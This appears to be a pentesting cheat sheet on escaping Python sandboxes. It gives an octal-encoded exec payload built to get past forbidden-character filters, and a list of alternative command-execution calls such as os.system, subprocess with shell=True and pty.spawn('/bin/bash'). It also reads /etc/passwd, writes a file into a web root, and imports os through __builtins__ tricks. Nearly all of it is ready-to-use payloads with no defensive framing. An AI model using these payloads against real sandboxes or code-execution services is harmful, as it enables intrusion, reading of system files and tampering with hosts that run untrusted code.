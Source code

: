 # Python Sandbox

## Bypass forbidden characters

* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\160\162\151\156\164\050\047\122\103\105\047\051\073\040\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\163\171\163\164\145\155\050\047\154\163\047\051")`
* Alteratively you can convert to octal, hex, base64

## Alternative functions

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python builtins

* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`
* Examples
  * `import __builtin__`
  * `__builtin__.len("hello")`
  * `__builtin__.range(1,20)`
  * `__builtin__.print("hello")`
  * `from __future__ import print_function`
  * `__builtin__.print("hello")`

![](../../.gitbook/assets/image%20%28138%29.png)

* Some more builtin
  * `__builtins__.__dict__['__import__']("os").system("ls")`
  * `__import__('os').system('ls')`

